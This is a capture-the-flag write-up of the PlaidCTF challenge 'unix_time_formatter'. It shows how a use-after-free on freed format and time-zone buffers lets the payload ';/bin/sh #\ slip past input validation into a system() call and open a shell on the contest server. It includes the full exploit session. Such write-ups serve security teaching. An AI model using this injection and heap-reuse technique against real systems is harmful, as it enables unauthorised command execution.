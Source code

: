 unix_time_formatter
Pwnable (76 pts)
Converting Unix time to a date is hard, so Mary wrote a tool to do so.

Can you you exploit it to get a shell? Running at unix.pwning.xxx:9999
Writeup by: mut3

Collaborators: brianmwaters, dillonb

Disclaimer :We came at this without a really organized process, so take not that most of these discoveries and progressions came with more over caffeinated fiddling and experimenting than this writeup lets on.

Intro
For this challenge we were given this binary which takes a user input date_format, time, & timezone then makes a call to /bin/date to print out the input time according to the given format and timezone.

Normal Run
Welcome to Mary's Unix Time Formatter!
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
>1
Format: %c
Format set.
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
>2
Enter your unix time: 1234567890
Time set.
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
>3
Time zone: UTC
Time zone set.
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
>4
Your formatted time is: Fri 13 Feb 2009 11:31:30 PM UTC
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
>5
Are you sure you want to exit (y/N)? y
OK, exiting.
Reversing
The first useful thing we found, after disassembling the binary was the existence of multiple environment checks for a debug flag, called DEBUG of course. Here's one of those checks:

400c4f:	e8 cc fc ff ff       	callq  400920 <getenv@plt>
After that we always started the binary with:

$ DEBUG=1 ./unix_time_formatter_9a0c42cadcb931cce0f9b7a1b4037c6b
This flag was a very helpful bit of assistance from PPP, as it output the command being run when we printed the time (option 4) and showed the memory pointers used in strdup and free calls.

Here is the useful DEBUG output per command:

Format time
Format: %c
strdup(0x7fffd37cde78) = 0x1796420
Format set.
Set TZ
Time zone: UTC
strdup(0x7fffd37cde78) = 0x1796440
Time zone set.
Print formatted time
Your formatted time is: Running command: /bin/date -d @0 +'%c'
Thu 01 Jan 1970 12:00:00 AM UTC
Exit
free(0x1796420)
free(0x1796440)
Are you sure you want to exit (y/N)? y
OK, exiting.
We honed in on the print formatted time command, that was where we could pop a shell. The call to /bin/date was run like this by the program:

system(/bin/date -d @[TIME] +'[FORMAT]')
Where [TIME] and [FORMAT] are user input. The time input was dead end in terms of command injection, giving it anything but an int would cause a seg fault when the print call was made. This left us the time format field, surrounded by single quotes, but any 1337 h4x0r worth their salt will know all we have to do is place a closing quote into our payload to escape these.

Format: ';/bin/sh #\
strdup(0x7ffcc3308678) = 0x1b17420
Format contains invalid characters.
free(0x1b17420)
Uh-oh, no shell, what went wrong? We went back into the disassembled program and found out that it ran some input validation on our time format input. Only the characters %aAbBcCdDeFgGhHIjklmNnNpPrRsStTuUVwWxXyYzZ:-_/0^# were allowed, and without a single quote, we were not successfully injecting straight into time format.

Now what?

There's input validation on time-format, but not on timezone. We found we could put anything we wanted into the timezone, but it wasn't included within the system() call, so what use was it? We weren't quite sure.

We went back to messing around with the binary in DEBUG mode, testing ideas, bumbling around. After some frustrating head->wall grinding, I noticed the key we had missed before, "Hey wait, the f***ing thing frees those pointers before exit!" Eureka. When option 5 gets chosen, the memory malloc()'d by strdup() to store the TZ and format is freed before the user chooses wheter to exit the program or not. Brian had heard of double-free vulns and the undefined behavior they could cause. (We now know it was just a use-after-free, but we freed twice.) What a beautiful thing for somebody looking for a vulnerability to hear "undefined behavior," mmmm, tasty.

Exploiting
Q: What happens after we free these pointers, but don't exit?

A: Wonderful, wonderful things :)

Welcome to Mary's Unix Time Formatter!
...
> 1
Format: %c
strdup(0x7ffcd354c5f8) = 0x1d36420
Format set.
...
> 3
Time zone: UTC   
strdup(0x7ffcd354c5f8) = 0x1d36440
Time zone set.
...
> 5
free(0x1d36420)
free(0x1d36440)
Are you sure you want to exit (y/N)? n
...
> 3
Time zone: UTC
strdup(0x7ffcd354c5f8) = 0x1d36440
Time zone set.
...
> 3       
Time zone: UTC
strdup(0x7ffcd354c5f8) = 0x1d36420
Time zone set.
There it is, we now have our format field pointing at 0x1d36420 but thanks to use-after-free we just wrote to that address with the TZ input. Time to pop a shell on the server.

Pwning
$ nc unix.pwning.xxx 9999
Welcome to Mary's Unix Time Formatter!
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
> 1
Format: %c
Format set.
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
> 3
Time zone: ';/bin/sh #\
Time zone set.
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
> 5
Are you sure you want to exit (y/N)?
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
> 5
Are you sure you want to exit (y/N)?
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
> 3
Time zone: ';/bin/sh #\
Time zone set.
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
> 3
Time zone: ';/bin/sh #\    ||  ';sh;'
Time zone set.
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
> 4
Your formatted time is:
ls
flag.txt
unix_time_formatter
wrapper
cat flag.txt
PCTF{use_after_free_isnt_so_bad}
exit
Wrapup
Flag: PCTF{use_after_free_isnt_so_bad} Notes:

We now know we didn't need to double free, this is a use after free vulnerability
Our payload ';/bin/sh #\ probably didn't need the #\, but we left it so that the second ' wouldn't create problems
We could have automated this, but it wasn't very time consuming to do manually, and this was our first time popping a shell, very exciting
Thanks to PPP for putting on PCTF.
